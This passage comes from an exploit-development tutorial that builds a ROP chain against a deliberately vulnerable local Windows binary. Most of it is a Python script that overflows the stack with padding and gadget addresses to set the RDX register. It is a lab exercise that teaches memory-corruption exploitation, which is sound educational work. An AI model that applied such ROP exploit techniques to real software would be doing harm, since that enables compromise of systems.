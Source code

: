 **Alright, let's walk through this line by line.  However, we need to add it to our python template first.  Go ahead and copy the code below and run it in the same manner we've been going about using our python script:**

```python
import struct
import subprocess

# Offset to the return address
junk = 296  # junk  (296 bytes)

payload = b"\x41" * junk

#rop gadgets for setting the RDX register value
#####################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001243)  # mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 1000 on stack --> 0x00000001400000AC = 0x1000
payload += struct.pack("<Q", 0x140007678)  # mov eax, dword ptr [rax]; ret;
payload += struct.pack("<Q", 0x140006995)  # add edx, eax; mov eax, edx; ret; 
# RDX should now be set to 1002 (ideally 1000 but I got tired of mathing :D )
######################################################


# Run the vulnerable program and supply the payload
process = subprocess.Popen(
    ["C:/Users/robbi/Documents/GitHub/elevationstation_local/overflow3.exe"],  # Replace with the path to your compiled binary
    stdin=subprocess.PIPE,
    stdout=subprocess.PIPE,
    stderr=subprocess.PIPE
)

#uncomment to allow debugging in x64dbg
input("attach 'overflow.exe' to x64Dbg and press enter when you're ready to continue...")

# Send the payload
stdout, stderr = process.communicate(input=payload)

# Output the program's response
print(stdout.decode())
if stderr:
    print(stderr.decode())
```

After running the program, we landed at our familiar breakpoint.  Notice once again in the bottom right hand corner, all of our rop gadget memory addresses are setup and ready to access!

![image](https://github.com/user-attachments/assets/6aaf4fc8-1ea8-42e5-b440-0f090b8ec760)

Here's how this is going to play out and how creativity plays a big factor in chaining rop gadgets.
